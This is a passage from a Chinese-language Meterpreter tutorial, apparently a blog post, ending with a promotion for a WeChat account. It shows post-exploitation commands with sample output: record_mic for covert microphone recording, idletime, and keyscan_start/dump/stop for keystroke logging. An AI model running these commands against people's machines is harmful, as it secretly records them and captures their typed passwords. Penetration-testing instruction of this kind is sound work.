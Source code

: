 #### 进行环境监听

某些时候我们可能处于监视目的需要进行环境监听，就可以使用record_mic命令。

```
meterpreter > record_mic 
[*] Starting...
[*] Stopped
Audio saved to: /root/hStZovMr.wav
```

也可以使用record_mic命令加上-d参数制定录音的长度，这个参数单位是秒。

#### 计算目标系统闲置时间

```
idletime
meterpreter > idletime
User has been idle for: 21 mins 19 secs
```

#### 监控键盘

- 启动监听：keyscan_start
- 导出记录：keyscan_dump
- 停止监听：keyscan_stop

```
meterpreter > keyscan_start
Starting the keystroke sniffer ...
meterpreter > keyscan_dump 
Dumping captured keystrokes...


meterpreter > keyscan_stop
Stopping the keystroke sniffer...
meterpreter > 
```

## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)